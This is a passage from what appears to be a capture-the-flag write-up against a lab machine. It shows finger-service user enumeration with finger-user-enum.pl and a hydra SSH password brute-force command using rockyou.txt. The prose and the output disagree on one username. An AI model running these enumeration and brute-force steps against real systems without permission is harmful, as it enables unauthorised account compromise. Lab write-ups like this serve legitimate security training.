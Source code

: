 Since the UDP scan took too long to run, we don’t have UDP scan results for this blog.

# Enumeration

We’ll start off with enumerating port 79. A quick google search on the “Finger service” tells us that the finger protocol is used to find out information about users on a remote system. Therefore, we can use it to enumerate usernames.

First, check if there are any logged in users.

```
root@kali:~# finger [@10](http://twitter.com/10).10.10.76
No one logged on
```

No one is currently logged in. Let’s check if the user “root” exists.

```
root@kali:~# finger root@10.10.10.76
Login       Name               TTY         Idle    When    Where
root     Super-User            pts/3        <Apr 24, 2018> sunday
```

It does exist. Now, let’s enumerate more usernames. The [seclists](https://installlion.com/kali/kali/main/s/seclists/install/index.html) project has a list of usernames that we can use in order to guess the usernames that are available on the server.

```
/usr/share/seclists/Usernames/Names/names.txt
```

Pentestmonkey has a [finger-user-enum](http://pentestmonkey.net/tools/user-enumeration/finger-user-enum) script that is used to enumerate OS-level user accounts via the finger service. Let’s run that on our host.

```
./finger-user-enum.pl -U /usr/share/seclists/Usernames/Names/names.txt -t 10.10.10.76
```

- **-U: **file of usernames to check via finger service

- **-t:** server host running finger service

We get the following result showing us that “sammy” and “sunday” are users of the system.

```
....
sammy@10.10.10.76: sammy                 pts/2        <Apr 24, 2018> 10.10.14.4          ..
sunny@10.10.10.76: sunny                              <Jan  5 23:37> 10.10.14.12         ..
....
```

# Initial Foothold

Since SSH is open and we have two valid usernames, let’s try brute-forcing the users’ credentials using hydra. We’ll start off with Sunny.

```
hydra -l sunny -P '/usr/share/wordlists/rockyou.txt' 10.10.10.76 ssh -s 22022
```
